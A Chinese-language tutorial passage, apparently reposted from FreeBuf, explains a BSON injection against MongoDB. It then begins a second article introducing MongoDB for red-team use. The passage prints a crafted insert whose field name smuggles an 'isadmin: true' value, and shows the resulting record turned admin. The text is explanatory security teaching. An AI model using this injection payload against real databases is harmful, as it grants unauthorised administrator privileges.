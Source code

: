 现在让我们来研究一下基于BSON格式数据的漏洞。

BSON（二进制JavaScript对象符号）是一种主要用作存储各种数据（Bool，int，string等）的计算机数据交换格式。 现假设存在一个有两条记录的表：

`> db.test.find({})`

`{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" :`

`"admin", "isadmin" : true }`

`{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "noadmin", "isadmin" : false }`

还有一个参数存在注入点的数据库请求：

```cobol
>db.test.insert({ "name" : "noadmin2", "isadmin" : false})
```

只需将设计好的BSON对象插入列名称即可：

```cobol
>db.test.insert({"name\x16\x00\x08isadmin\x00\x01\x00\ x00\x00\x00\x00" : "noadmin2", "isadmin" : false})
```

isadmin 之前 0×08 指定了数据类型为布尔值，0×01将对象值设置为true，而不是默认分配。 

现在看看表中有什么：

`> db.test.find({})`

`{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "admin", "isadmin" : true }`

`{ "_id" : ObjectId("5044ebc3a91b02e9a9b065e1"), "name" : "noadmin", "isadmin" : false }`

`{ "_id" : ObjectId("5044ebf6a91b02e9a9b065e3"), "name" : null, "isadmin" : true, "isadmin" : true }`

Isadmin的false已经变成了true！

[![十分钟看懂MongoDB攻防实战](https://image.3001.net/images/20170925/15063017646160.png!small)](https://image.3001.net/images/20170925/15063017646160.png)

![十分钟看懂MongoDB攻防实战](https://image.3001.net/images/20170925/15063017668277.png!small)![十分钟看懂MongoDB攻防实战](https://image.3001.net/images/20170925/15063017658723.png!small)

在现实生活中可能会遇到上述的攻击和漏洞，我们不仅应该考虑在MongoDB中运行的安全代码，还要考虑DBMS本身的漏洞。希望通过本文的介绍能让大家了解到NoSQL数据库也不是安全无忧的数据库。

转载自：[https://www.freebuf.com/articles/database/148823.html](https://www.freebuf.com/articles/database/148823.html)


# 数据库攻防之MongoDB


MongoDB是一个安全性相对较高的非关系型数据库，它的安全问题主要出现在使用、配置过程当中。目前随着MongoDB的流行，它也成为了红队攻防领域不可忽视的数据库。

## 0x01 MongoDB简介

MongoDB 是一个由C++编写、基于分布式文件存储的开源数据库系统，旨在为 web 应用提供可扩展的高性能数据存储解决方案。它将数据存储为一个文档，数据结构由键值对组成，文档类似于 JSON 对象。字段值可以包含其他文档、数组以及文档数组。
